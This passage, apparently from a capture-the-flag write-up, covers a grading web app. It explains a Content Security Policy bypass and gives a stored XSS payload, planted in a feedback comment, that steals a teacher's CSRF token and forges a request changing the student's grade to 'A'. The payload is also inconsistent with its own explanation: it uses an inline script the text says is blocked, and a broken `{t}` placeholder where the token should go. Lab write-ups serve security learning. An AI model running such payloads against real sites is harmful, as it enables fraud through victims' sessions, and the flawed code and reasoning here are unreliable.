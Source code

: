 The Content Security Policy (CSP) set by the application is very restrictive: it blocks all external resources by default, only allows scripts from the same origin (`'self'`) and from `data:` URLs, and tightly controls styles, images, and other content. Normally, this would prevent most cross-site scripting (XSS) attacks, as inline scripts and most external sources are blocked.

However, because `script-src` includes `data:`, you can bypass the CSP by injecting a `<script src="data:text/javascript, ...">` tag. This allows you to execute arbitrary JavaScript encoded in a data URL, even though inline scripts are blocked. In this challenge, you can use this to fetch the `/grade-change` page, extract the CSRF token, and submit a forged POST request to change your grade to 'A'.

#### 5. Craft the Exploit Payload

Submit the following payload as your feedback comment (replace `{student_id}` and `{class_id}` with your actual values):

```html
</textarea><script>
fetch('/grade-change')
.then(r => r.text())
.then(h => {
    let t = new DOMParser().parseFromString(h, 'text/html').querySelector('input[name=csrf_token]').value;
    fetch('/grade-change', {
        method: 'POST',
        headers: {'Content-Type': 'application/x-www-form-urlencoded'},
        body: `student_id={student_id}&class_id={class_id}&grade=A&csrf_token={t}`
    });
});
</script>
```

#### 6. Trigger the Exploit

- Submit the payload as feedback for your class.
- Report your feedback to the teacher (or wait for the teacher to review it).
- When the teacher views your dashboard, the script executes in their browser, using their privileges to change your grade to 'A'.

As we can see the grades are all changed to **A** :

![alt text](image-3.png)
